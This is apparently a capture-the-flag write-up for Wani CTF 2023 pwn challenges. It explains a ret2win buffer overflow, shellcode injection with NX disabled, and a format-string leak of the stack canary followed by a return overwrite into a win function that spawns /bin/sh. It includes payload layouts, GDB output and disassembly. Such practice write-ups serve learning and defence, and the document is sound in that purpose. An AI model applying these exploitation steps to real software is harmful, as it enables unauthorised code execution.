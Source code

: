 # Wani CTF 2023

## ret2win

This is a simple buffer overflow, the aim of this challenge is to jump to the win function.
The payload will be structured as follows:
> Payload = PADDING + win_address()

## shell-basic
Simple shellcode injection

```bash
[*] '/home/feedz/Desktop/waniCTF/waniCTF_2023/pwn-shell-basic/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments

```

we can see that NX is disabled and that means we can go with shellcode injection.


## Canaleak

the aim of this challenge is to leak the stack canary through format string vulnerability and then jump to the win function that will open /bin/sh.

```C
while (strcmp(nope, "YES")) {
    printf("You can't overwrite return address if canary is enabled.\nDo you "
           "agree with me? : ");
    scanf("%s", nope);
    printf(nope);
  }
```

the focus is to leak stuff from the stack through printf, as I said first this will help us to leak the stack canary.
we can try to fuzz the stack and try to identify the stack canary.
the stack canary end in 00.

```
0: Do you agree with me? : %0$p
1: Do you agree with me? : 0xa
2: Do you agree with me? : (nil)
3: Do you agree with me? : 0x7f32a9619aa0
4: Do you agree with me? : (nil)
5: Do you agree with me? : 0x7fc3bb378040
6: Do you agree with me? : 0x70243625
7: Do you agree with me? : (nil)
8: Do you agree with me? : (nil)
9: Do you agree with me? : 0xef1553a888ae3b00
10: Do you agree with me? : 0x1
11: Do you agree with me? : 0x7fe97bc29d90
12: Do you agree with me? : (nil)
13: Do you agree with me? : 0x401254
14: Do you agree with me? : 0x100000000
```

we can see that in the first 15 occurrences only 1 ends with 00.
Number 9 is our candidate

Now let's check better with GDB.
```gdb
You can't overwrite return address if canary is enabled.
Do you agree with me? : %9$p
0xb2431c61d958e500

gef➤  canary
[*] .gef-2b72f5d0d9f0f218a91cd1ca5148e45923b950d5.py:L4935 'checksec' is deprecated and will be removed in a feature release. Use Elf(fname).checksec()
[+] The canary of process 16904 is at 0x7fffffffe2b9, value is 0xb2431c61d958e500
```
yes, %9$p will be our stack canary.
let's craft our payload:
> Payload = buffer_padding + canary + padding_rbp + win_address

Note that win fuction starts at 0x40123d but this function will push rbp on the stack, and this will dis-align the stack.
So we can pass 0x401245 directly, which is the syscall to /bin/sh.

```gdb
gef➤  disas win
Dump of assembler code for function win:
   0x000000000040123d <+0>:	endbr64 
   0x0000000000401241 <+4>:	push   rbp
   0x0000000000401242 <+5>:	mov    rbp,rsp
   0x0000000000401245 <+8>:	lea    rdi,[rip+0xdbc]        # 0x402008
   0x000000000040124c <+15>:	call   0x4010d0 <system@plt> 
   0x0000000000401251 <+20>:	nop
   0x0000000000401252 <+21>:	pop    rbp
   0x0000000000401253 <+22>:	ret    
End of assembler dump.
```

the stack alignment will look something like this:
```gdb
0x007ffc9282ce08│+0x0008: "AAAAAAAAAAAAAAAA"
0x007ffc9282ce10│+0x0010: "AAAAAAAA"
0x007ffc9282ce18│+0x0018: 0x338641c2c0127900
0x007ffc9282ce20│+0x0020: 0x4242424242424242	 ← $rbp
0x007ffc9282ce28│+0x0028: 0x00000000401245  →  <win+8> lea rdi, [rip+0xdbc]        # 0x402008
```
just run the exploit and get the flag!








